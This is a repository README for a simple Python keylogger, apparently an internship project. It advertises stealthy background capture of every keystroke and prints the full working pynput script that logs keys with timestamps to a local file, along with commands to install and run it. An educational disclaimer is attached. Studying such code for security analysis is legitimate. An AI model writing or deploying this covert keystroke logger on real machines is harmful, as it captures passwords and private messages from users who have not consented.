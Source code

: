 # Simple Keylogger
This repository contains a simple keylogger developed as part of an internship task at Prodigy Infotech. The keylogger is designed to monitor and log keystrokes on a system for educational and security analysis purposes.

# Features
•Keystroke Logging: Records all keystrokes made on the system.

•Timestamped Entries: Each keystroke is logged with a timestamp.

•Stealth Operation: Runs in the background without drawing attention.

# Requirements

Python 3.x
Required Python libraries (listed in requirements.txt)

Installation

1) Clone the repository:
   
          git clone https://github.com/yourusername/simple-keylogger.git
          cd simple-keylogger

2) Install the required libraries:

         pip install -r requirements.txt

# Usage

1) Run the keylogger

        python keylogger.py

2) Stop the keylogger

    The keylogger can be stopped manually by closing the terminal or killing the process.
  
3) View the logs

    The logged keystrokes are saved in a file named keylog.txt in the same directory as the script.
  
# Code Overview

 • keylogger.py: The main script that sets up the keylogger and logs the keystrokes.
 
 • requirements.txt: Lists the required Python libraries for the keylogger to run.
 
# Keylogger Script (keylogger.py)

The keylogger script uses the pynput library to monitor and log keystrokes. Below is a high-level overview of the script:

1) Import Libraries

          from pynput.keyboard import Listener 
          import logging
   
3) Set Up Logging

        logging.basicConfig(filename=("keylog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
   
5) Define Event Handlers

        def on_press(key):
            logging.info(str(key))
4) Start Listening

        with Listener(on_press=on_press) as listener:
            listener.join()
# Disclaimer

This keylogger is intended for educational purposes only. Unauthorized use of keyloggers is illegal and unethical. Ensure you have explicit permission from the owner of any system on which you use this keylogger. Prodigy Infotech and the author are not responsible for any misuse of this tool.

# Contributing

If you would like to contribute to this project, please fork the repository and submit a pull request.

# License

This project is licensed under the MIT License. See the LICENSE file for details.

# Contact

 For any questions or issues, please contact vsai17290@gmail.com.
